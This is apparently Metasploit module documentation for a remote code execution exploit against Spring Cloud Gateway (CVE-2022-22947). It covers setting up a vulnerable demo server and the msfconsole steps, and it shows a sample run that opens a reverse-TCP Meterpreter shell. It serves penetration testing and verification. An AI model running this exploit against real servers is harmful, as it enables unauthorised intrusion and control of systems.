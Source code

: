 ## Vulnerable Application

The vulnerability exploits [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947) an unauthenticated RCE
vulnerability in Spring Cloud Gateway. According to [VMware](https://tanzu.vmware.com/security/cve-2022-22947)
the versions affected are:

- 3.1.0
- 3.0.0 to 3.0.6
- Older, unsupported versions are also affected

A sample demo [project](https://github.com/wdahlenburg/spring-gateway-demo) is available,
which can be used to run a vulnerable server by following the installation instructions below.
    
### Installation Instructions

```bash
    # To use the pre-compile vulnerable application
    wget https://github.com/wdahlenburg/spring-gateway-demo/releases/download/v.0.0.1/spring-gateway-demo-0.0.1-SNAPSHOT.jar
    sudo apt install default-jdk
    java -jar spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000


    # If you want to compile for a version of spring cloud gateway on your own
    git clone https://github.com/wdahlenburg/spring-gateway-demo.git

    # In pom.xml, change the version in '<spring-cloud.version>2021.0.1-SNAPSHOT</spring-cloud.version>'. 
    # To see which spring cloud version includes which version of spring cloud gateway, 
    # look here : https://repo1.maven.org/maven2/org/springframework/cloud/spring-cloud-dependencies/

    apt install maven
    mvn package -DskipTests
    java -jar target/spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000
```


## Verification Steps

- Run the vulnerable server
- Start msfconsole
- Do: `use exploit/linux/http/spring_cloud_gateway_rce`
- Do: `set RHOSTS <server_ip>`
- Do: `set RPORT 9000`
- Do: `run`
- You should get a Meterpreter shell.

## Options

## Scenarios

### Spring Cloud gateway version 3.1.0 on Linux kali 5.18.0-kali5-amd64

```
msf6 > use exploit/linux/http/spring_cloud_gateway_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RHOSTS 192.168.19.140
RHOSTS => 192.168.19.140
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RPORT 9000
RPORT => 9000
msf6 exploit(linux/http/spring_cloud_gateway_rce) > run

[*] Started reverse TCP handler on 192.168.19.140:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if server is vulnerable
[+] Route deleted
[+] The target is vulnerable.
[+] Created route successfully with the reverse shell
[*] Triggering code execution using routes
[*] Sending stage (3020772 bytes) to 192.168.19.140
[*] Meterpreter session 1 opened (192.168.19.140:4444 -> 192.168.19.140:59916) at 2022-10-01 14:21:31 -0400
[+] Route deleted

meterpreter >
```

